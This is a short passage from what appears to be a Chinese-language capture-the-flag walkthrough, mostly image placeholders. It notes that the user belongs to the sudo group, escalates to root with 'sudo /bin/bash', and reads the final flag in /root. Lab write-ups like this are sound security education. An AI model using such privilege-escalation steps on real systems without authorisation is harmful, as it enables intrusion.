
发现该用户在 sudo 组中，直接提权：
sudo /bin/bash
成功提权，进入 /root 目录访问最终 flag：
